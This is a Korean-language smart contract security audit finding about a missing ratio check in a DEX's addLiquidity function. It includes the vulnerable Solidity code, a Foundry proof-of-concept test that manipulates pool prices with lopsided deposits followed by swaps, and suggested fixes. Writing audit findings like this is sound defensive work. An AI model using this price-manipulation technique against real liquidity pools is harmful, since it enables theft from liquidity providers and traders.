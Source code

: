 ## medium - 토큰 유동성 풀의 AMM이 손상되어 비정상적인 가격 변동이 발생할 수 있습니다.

### 설명

./src/Dex.sol: 20-46

function addLiquidity(uint amount_x, uint amount_y, uint min_liquidity) external returns (uint liquidity)

```solidity
function addLiquidity(uint amountX, uint amountY, uint minLP) external returns (uint lpTokens) {
      require(tokenX.allowance(msg.sender,address(this))>= amountX && tokenY.allowance(msg.sender,address(this))>= amountY,"ERC20: insufficient allowance");
      require(tokenX.balanceOf(msg.sender)>=amountX && tokenY.balanceOf(msg.sender)>=amountY,"ERC20: transfer amount exceeds balance");
      require(amountX > 0 && amountY > 0);
      // 유동성 풀에 아무 것도 없으면 
      if (totalLiquidity == 0) {
          reserveX = amountX;
          reserveY = amountY;
          lpTokens = sqrt(amountX * amountY);
          totalLiquidity = lpTokens;
      } 
      else {
        // 기존 풀에 유동성 추가
        uint liquidityX = (totalLiquidity * amountX) / reserveX;
        uint liquidityY = (totalLiquidity * amountY) / reserveY;

        // 더 작은 값을 선택하여 풀의 균형을 유지
        lpTokens = (liquidityX < liquidityY) ? liquidityX : liquidityY;

        require(lpTokens >= minLP);

        totalLiquidity += lpTokens;
    }
      liquidity[msg.sender] += lpTokens;
      tokenX.transferFrom(msg.sender, address(this), amountX);
      tokenY.transferFrom(msg.sender, address(this), amountY);

      reserveX = tokenX.balanceOf(address(this));
      reserveY = tokenY.balanceOf(address(this));
      return lpTokens;
  }
```

`addLiquidity` 함수에서 인자로 들어온 amountX, amountY의 값이 실제 유동성 풀의 토큰 비율과 일치하는지에 대한 검사가 존재하지 않습니다.

이에 따라 amountX, amountY만큼의 토큰이 모두 유동성 풀에 추가되어 유동성 풀 내의 토큰 비율이 손상될 수 있습니다.

### 파급력

Medium - 유동성 공급 비율에 대한 검사가 이루어지지 않아, 공격자가 임의로 토큰 비율을 조정 할 수 있습니다.

```solidity
contract DexScript is Test {
    Dex public dex;
    IERC20 tokenX;
    IERC20 tokenY;

    function setUp() public {
        tokenX = new CustomERC20("X");
        tokenY = new CustomERC20("Y");
        dex = new Dex(address(tokenX), address(tokenY));
        tokenX.approve(address(dex), type(uint256).max);
        tokenY.approve(address(dex), type(uint256).max);

        dex.addLiquidity(800 ether, 700 ether, 0);
    }

    function test_exploit() public {
        
        uint LPReturn1 = dex.addLiquidity(8 ether, 7 ether, 0);
        console.log("LPReturn1: ", LPReturn1);

        uint swap1 = dex.swap(0, 100 ether, 0);
        console.log("swap1: ", swap1);

        
    }

    function test_exploit2() public {
        uint LPReturn2 = dex.addLiquidity(10000 ether, 1, 0);
        console.log("LPReturn2: ", LPReturn2);

        uint swap2 = dex.swap(0, 100 ether, 0);
        console.log("swap2: ", swap2);
    }
}
```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/dcc66554-0f51-432b-b52f-51edb25200cb/ec12c0d9-35dc-4683-80e5-30f0cdb65145/image.png)

1. 특정 토큰의 유동성 비율을 매우 높거나 낮게 공급하여 토큰의 가격을 조정할 수 있습니다.

### 해결 방안

1. addLiquidity 함수의 인자가 아닌 실제로 추가되어야할 토큰의 양을 현재 유동성 풀의 비율에 대해 계산하여 transfer하는 방법을 사용할 수 있습니다.
    1. amountX, amountY 중 실제로 유동성 풀에 추가될 수 있는 양(`aX`, `bX`을 계산)
    2. 아래와 같이, 계산된 토큰의 양을 transferFrom 합니다.
    `tokenX.transferFrom(msg.sender, address(this), aX);`
    `tokenY.transferFrom(msg.sender, address(this), aY);`
2. 유동성 풀의 토큰 양을 reserve 변수로 사용하고, skim 함수를 implement하여 필요한 경우 유동성 풀의 비율을 맞춰줄 수 있습니다.
    
    ```solidity
    function skim(address to) external lock {
            address _token0 = token0; // gas savings
            address _token1 = token1; // gas savings
            _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)).sub(reserve0));
            _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)).sub(reserve1));
        }
    ```
